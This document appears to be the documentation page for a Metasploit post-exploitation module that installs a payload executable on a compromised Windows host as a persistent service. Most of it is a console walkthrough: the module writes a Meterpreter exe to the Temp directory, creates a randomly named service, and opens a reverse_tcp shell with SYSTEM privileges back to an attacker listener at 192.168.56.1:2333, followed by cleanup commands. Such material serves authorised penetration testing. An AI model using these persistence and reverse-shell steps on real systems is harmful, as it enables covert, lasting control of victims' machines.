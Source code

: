 ## Overview

This Module will generate and upload an executable to a remote host, next will make it a persistent service.
It will create a new service which will start the payload whenever the service is running. Admin or system privilege is required.

## Module Options

 **REMOTE_EXE_NAME**
 The remote victim name. Random string as default.
 **REMOTE_EXE_PATH**
The remote victim exe path to run. Use temp directory as default.
 **RETRY_TIME**
The retry time that shell connect failed. 5 seconds as default.
 **SERVICE_DESCRIPTION**
The description of service. Random string as default.
 **SERVICE_NAME**
The name of service. Random string as default.

## Verification steps

1. get session on target
2. `use exploit/windows/local/persistence_service`
3. `set payload <payload>`
4. `set lport <lport>`
5. `set lhost <lhost>`
6. `exploit`

## Usage

### Windows 7 sp1 x64

```
msf5 exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: test-PC\test
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 exploit(windows/local/persistence_service) >
msf5 exploit(windows/local/persistence_service) > use exploit/windows/local/persistence_service
msf5 exploit(windows/local/persistence_service) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/local/persistence_service) > set lport 2333
lport => 2333
msf5 exploit(windows/local/persistence_service) > set lhost 192.168.56.1

msf5 exploit(windows/local/persistence_service) > options

Module options (exploit/windows/local/persistence_service):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   REMOTE_EXE_NAME                       no        The remote victim name. Random string as default.
   REMOTE_EXE_PATH                       no        The remote victim exe path to run. Use temp directory as default.
   RETRY_TIME           5                no        The retry time that shell connect failed. 5 seconds as default.
   SERVICE_DESCRIPTION                   no        The description of service. Random string as default.
   SERVICE_NAME                          no        The name of service. Random string as default.
   SESSION              1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.1     yes       The listen address (an interface may be specified)
   LPORT     2333             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows

msf5 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 192.168.56.1:2333
[*] Running module against TEST-PC

[+] Meterpreter service exe written to C:\Users\test\AppData\Local\Temp\NVNvCyn.exe
[*] Creating service NePaGwA
[*] Cleanup Meterpreter RC File: /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Sending stage (179779 bytes) to 192.168.56.101
[*] Meterpreter session 4 opened (192.168.56.1:2333 -> 192.168.56.101:52781) at 2018-10-22 17:56:21 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 4...
```

**Clean it**

```
msf5 exploit(windows/local/persistence_service) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > resource /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc
[*] Processing /Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc for ERB directives.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "stop NePaGwA"
Process 6516 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -f sc.exe -a "delete NePaGwA"
Process 6624 created.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> execute -H -i -f taskkill.exe -a "/f /im NVNvCyn.exe"
Process 5636 created.
Channel 23 created.
SUCCESS: The process "NVNvCyn.exe" with PID 5180 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 4828 has been terminated.
SUCCESS: The process "NVNvCyn.exe" with PID 5728 has been terminated.
resource (/Users/green/.msf4/logs/persistence/TEST-PC_20181022.5605/TEST-PC_20181022.5605.rc)> rm C:\\Users\\test\\AppData\\Local\\Temp\\NVNvCyn.exe
meterpreter > 
```
